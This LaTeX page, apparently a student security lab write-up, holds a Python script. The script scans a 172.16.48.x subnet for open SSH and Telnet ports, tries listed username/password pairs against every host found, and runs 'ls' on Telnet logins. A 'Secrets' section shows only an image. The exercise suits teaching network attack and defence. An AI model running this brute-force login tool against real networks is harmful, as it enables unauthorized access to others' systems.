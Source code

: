 \documentclass{article}
\begin{document}
\begin{lstlisting}[language=Python]
import paramiko
import telnetlib
import socket

pairs, ssh_ips, telnet_ips = [],[],[]
with open('../Q2pwd', 'r') as f:
    for line in f:
        login = line.strip()
        pair = login.split(" ")
        pairs.append(pair)
    for i in range(256):
        a_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        a_socket.settimeout(1.0)
        location = '172.16.48.' + str(i)
        check = a_socket.connect_ex((location, 22))
        if check == 0:
            ssh_ips.append(location)
            print(f'SSH: {location}')
        a_socket.close()
    for i in range(256):
        a_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        a_socket.settimeout(1.0)
        location = '172.16.48.' + str(i)
        check = a_socket.connect_ex((location, 23))
        if check == 0:
            telnet_ips.append(location)
            print(f'TN: {location}')
        a_socket.close()
    for pair in pairs:
        for i in ssh_ips:
            try:
                client = paramiko.SSHClient()
                client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
                client.connect(i, username=pair[0], password=pair[1])
                client.close()
                print("works")
            except:
                print("error")
    for pair in pairs:
        for i in telnet_ips:
            try:
                user = str(pair[0])
                pwd = str(pair[1])
                print(i, user, pwd)
                tn = telnetlib.Telnet(i)
                tn.read_until(b"login: ")
                tn.write(user.encode('ascii') + b"\n")
                if pwd:
                    tn.read_until(b"Password: ")
                    tn.write(pwd.encode('ascii') + b"\n")
                tn.write(b"ls\n")
                tn.write(b"exit\n")
                print(tn.read_all().decode('ascii'))
            except:
                print("error")
\end{lstlisting}

\subsection*{Secrets}
\begin{center}
    \includegraphics[scale=.5]{images/Q2secrets.png}
\end{center}
\end{document}
